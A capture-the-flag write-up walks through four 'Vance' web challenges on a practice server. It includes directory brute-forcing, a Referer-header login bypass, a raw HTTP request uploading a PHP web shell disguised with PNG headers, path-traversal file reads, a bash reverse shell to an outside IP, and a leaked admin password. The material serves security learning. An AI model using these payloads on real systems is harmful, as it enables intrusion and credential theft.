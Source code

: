 # Vance-Refridgeration
Really cool challenge that reminded me a lot about Hack the Box's Bank challenge.

- [1. Vance - Bad logic (100)](#1-vance---bad-logic-100)
- [2. Vance - Broken Trust (150)](#2-vance---broken-trust-150)
- [3. Vance - Triple Bypass (150)](#3-vance---triple-bypass-150)
- [4. Vance - Summit (150)](#4-vance---summit-150)

# 1. Vance - Bad logic (100)

From the challenge hint we got that the developers SQL sanitization was pretty good and we should focus on logic bugs.

With that in mind I went ahead started up gobuster to see what all I could find.

`gobuster -u http://vance.threatsims.com:35005 -w directory-list-lowercase-2.3-big.txt -x php`

```
/index.php (Status: 200)
/images (Status: 301)
/about.php (Status: 302)
/login.php (Status: 200)
/uploads (Status: 301)
/upload.php (Status: 302)
/includes (Status: 301)
/dashboard.php (Status: 302)
/plans.php (Status: 302)
```

All of the pages were redirecting me to the login page, so I took a look there and found a hint in the HTML comments.

`<!-- TODO: Remove referer flow check in prod -->`

With this hint I decided to play around with the referer a bit till I found the vulnerability! If you set the referer as `/login.php` then it assumes you had already logged in and redirected you to the right page.

`Referer: http://vance.threatsims.com:35005/login.php`

Since we already found some of the pages with gobuster, I went ahead and tried a few until I landed on `/about.php` which contained the first flag `{fridge_g4ng}`!

![Flag Picture](./vance2.PNG)

<br />

# 2. Vance - Broken Trust (150)
Checking out the rest of the pages, we also find another flag at `upload.php`, `{I_am_a_Butt3r_L0rd}`!

![Flag Picture](./vance3.PNG)

<br />

# 3. Vance - Triple Bypass (150)

Since there was an upload page, I assumed the next step was to try to get some sort've RCE through a file upload vulnerability. I tried to enter a basic php file, but got hit with an error message that I needed to upload a valid file. So we will need to get around the file sanitization somehow.

After messing around with the page for a bit, I managed to bypass sanitization by including PNG headers in the file.

```
POST /upload.php HTTP/1.1
Host: vance.threatsims.com:35005
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------129324419341189066324135806543
Content-Length: 401
Origin: http://vance.threatsims.com:35005
Connection: close
Referer: http://vance.threatsims.com:35005/upload.php
Cookie: PHPSESSID=mmo8jthqndf03kjd6f4p38jvt1
Upgrade-Insecure-Requests: 1
Referer: http://vance.threatsims.com:35005/login.php

-----------------------------129324419341189066324135806543
Content-Disposition: form-data; name="file"; filename="cmd.php"
Content-Type: image/png

PNG

���
IHDRDATA:
<?php echo system($_GET['cmd']); ?>)
-----------------------------129324419341189066324135806543
Content-Disposition: form-data; name="submit"

Upload Image
-----------------------------129324419341189066324135806543--
```

This let me upload and execute some commands on the server.

`<?php echo system($_GET['cmd']); ?>`

Checking to see what all is on the server we can issue a simple command

`/uploads/cmd.php?cmd=ls`

```
Kappa.png
cmd.php
crusader.jpg
intro-1609948293.jpg
intro-1609948293.php
k2w22.php
k2w3.php
k2w4.php
krosserev.php
krosserev3.php
krosserev3.php)
```

Snooping around a little more we find another flag `{w4r_n0t_won_in_Meetings}` by sending the command `/uploads/cmd.php?cmd=cat ../../../../flag.txt`

# 4. Vance - Summit (150)
Finally the hint says that we need to get admin. So to make things easier for me, I go ahead and get a reverse shell going.

To do this I created a C2 server using an AWS EC2 instance and then sent the reverse shell to that IP address.

Setup listener

`nc -lnvp 6000`

Connect the shell to the C2 server

`bash -c "bash -i >& /dev/tcp/3.236.230.174/6000 0>&1"`

I took a look at all the SUID executables to try and escilate my privelage and couldn't find anything that worked.

After reading the challenge back, it said to get `admin` and not `root`, which was enough of a difference to make me check the database.

Printing out the users.db file
we print out the sqlite users.db file and get ->

`35ea1e37e61a12adminadmin@trebuchet.orgH01yL4nD!MARY KEY, USERNAME TEXT, EMAIL TEXT, PASSWORD TEXT))=indexsqlite_autoindex_users_1users
GUACAMOLE5`

Which gives us a password for admin!

`admin:H01yL4nD!`

Logging in as admin, we print out `flag.txt` in the admin user's directory and we get the final flag!

`{Bigg3st_Chungus}`
